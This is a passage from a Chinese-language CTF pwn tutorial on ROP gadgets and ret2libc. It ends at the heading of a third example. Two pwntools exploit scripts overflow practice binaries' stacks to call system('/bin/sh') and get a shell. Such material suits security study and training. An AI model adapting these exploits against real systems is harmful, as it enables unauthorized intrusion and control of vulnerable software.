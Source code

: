 而我们如何控制这些寄存器的值 呢？这里就需要使用 gadgets。比如说，现在栈顶是 10，那么如果此时执行了 pop eax，那么现在 eax 的值就为 10。但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这也是我们在 gadgets 最后使用 ret 来再次控制程序执行流程的原因。具体寻找 gadgets 的方法，我们可以使用 **ropgadgets** 这个工具。

## ret2libc

**例子1**

https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc1/ret2libc1

直接查找/bin/sh和system,直接溢出

```
#!/usr/bin/env python
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])
sh.sendline(payload)

sh.interactive()

```

**例子2**

https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc2/ret2libc2

该题目与例 1 基本一致，只不过不再出现 /bin/sh 字符串，所以此次需要我们自己来读取字符串，所以我们需要两个  gadgets，第一个控制程序读取字符串，第二个控制程序执行 system("/bin/sh")。由于漏洞与上述一致，这里就不在多说，具体的  exp 如下

```
##!/usr/bin/env python
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    ['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()

```

**例子3**
